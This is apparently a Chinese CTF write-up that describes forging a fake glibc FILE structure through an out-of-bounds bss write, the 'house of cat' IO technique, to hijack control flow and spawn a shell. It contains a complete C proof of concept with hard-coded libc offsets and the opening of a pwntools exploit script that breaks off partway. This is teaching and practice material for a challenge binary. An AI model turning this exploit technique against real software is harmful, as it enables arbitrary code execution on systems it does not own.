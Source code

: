 想改got表，但没有函数可以控制参数，并且seed\_generator只能改一次，所以想通过IO劫持控制流然后getshell，因为无法修改seed\_generator的文件结构体，所以利用越界写bss来伪造文件结构体，然后再打IO

IO的house of cat的poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
size_t getlibc()
{
    puts("getlibc");
    size_t result=&puts-0x75b30;
    return result;
}
unsigned long long seed;
FILE *seed_generator;
size_t fake_io[0x100];
int main()
{   
     setvbuf(stdout, NULL, _IONBF, 0);
    size_t libc_base=getlibc();
    printf("libc base %p",libc_base);

    seed_generator = fopen("/dev/urandom", "r");
    fread((char*)&seed, 1, 8, seed_generator);

    fake_io[0]=0x3b687320;  //will cover  content that lock point with 1
    fake_io[0x20/8]=0;  //write_base
    fake_io[0x28/8]=1;  //write_ptr
    fake_io[0xa0/8]=fake_io;   //_wide_data  
    fake_io[0x18/8]=0;         //_wide_data->_IO_write_base
    fake_io[0x30/8]=0;     //_wide_data->_IO_buf_base
    fake_io[0xe0/8]=fake_io;    // _wide_data->__wide_vtable 0xe0
    fake_io[0x68/8]=libc_base+0x4e720;  //system  
    fake_io[0x88/8]=fake_io+0x100/8;  // attention fake_io is long*  , lock  address can be write    [fake_io+8]==0         
    fake_io[0xc0/8]=0;  //mode
    fake_io[0xd8/8]=libc_base+0x1d2648-40; //_IO_wfile_jumps-40

    seed_generator=fake_io;

    fread((char*)&seed, 1, 8, seed_generator);

}
```

exp
---

```python
from pwn import *

p=process("./chall")

def set_1():
    p.sendlineafter(b"> ",str("f"))
    p.sendlineafter(b"Player plays: ",str(18446744073709551615))

def set_0():
    p.sendlineafter(b"> ",str("f"))
    p.sendlineafter(b"Player plays: ",str(0))

def simulate(bot,play):
    p.sendlineafter(b"> ",str("s"))
```